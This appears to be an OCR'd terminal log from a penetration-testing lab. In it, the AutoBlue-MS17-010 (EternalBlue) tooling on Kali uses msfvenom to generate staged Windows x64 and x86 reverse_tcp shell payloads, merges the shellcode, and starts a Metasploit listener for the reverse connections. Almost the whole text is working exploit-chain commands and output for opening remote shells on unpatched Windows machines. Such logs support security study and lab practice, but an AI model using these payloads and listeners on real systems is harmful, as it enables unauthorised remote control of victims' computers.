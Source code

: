 ```bash
eth0
LPORT you want x64 to listen on:
9999
LPORT you want x86 to listen on:
2222
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
1
Type 0 to generate a staged payload or 1 to generate a stageless payload
0
Generating x64 cmd shell (staged)...

msfvenom -p windows/x64/shell/reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=eth0 LPORT=9999
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 511 bytes
Saved as: sc_x64_msf.bin

Generating x86 cmd shell (staged)...

msfvenom -p windows/shell/reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=eth0 LPORT=2222
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 375 bytes
Saved as: sc_x86_msf.bin

MERGING SHELLCODE WOOOO!!!
DONE
```

**Continuation:**
```
┌──(kali㉿kali)-[~/…/pentest/blue/AutoBlue-MS17-010/shellcode]
└─$ cd ..       
                                                                                                                                                
┌──(kali㉿kali)-[~/Desktop/pentest/blue/AutoBlue-MS17-010]
└─$ ./listener_prep.sh 
  __
  /,-
  ||)
  \\_, )
   `--'
Enternal Blue Metasploit Listener

LHOST for reverse connection:
eth0
LPORT for x64 reverse connection:
9999
LPORT for x86 reverse connection:
2222
Enter 0 for meterpreter shell or 1 for regular cmd shell:
1
Type 0 if this is a staged payload or 1 if it is for a stageless payload
0
Starting listener (staged)...
Starting postgresql (via systemctl): postgresql.service.
                                                  
Call trans opt: received. 2-19-98 13:24:18 REC:Loc
                                                                                                                                                
     Trace program: running                                                                                                                     
```